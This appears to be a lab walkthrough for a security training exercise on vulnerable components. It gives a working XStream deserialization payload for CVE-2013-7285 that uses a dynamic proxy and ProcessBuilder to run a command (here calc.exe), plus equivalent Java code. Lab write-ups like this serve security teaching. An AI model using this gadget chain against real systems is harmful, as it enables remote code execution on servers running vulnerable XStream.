 # (A9) Vulnerable Components

## Lesson 12
This lesson is a bit unclear. Basically, the goal is to exploit
[CVE-2013-7285](https://nvd.nist.gov/vuln/detail/CVE-2013-7285). You can finish it with this payload:
```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```
- `<sorted-set>` is deserialized by XStream as `java.util.SortedSet`
- We are adding 2 objects to this `SortedSet`:
    - a string `foo`
    - a dynamic proxy (handled by XStream)
    
This is pretty much the same in Java code:
```
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc.exe"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```
   
You can read more about it here:
- http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
- https://www.baeldung.com/java-xstream-remote-code-execution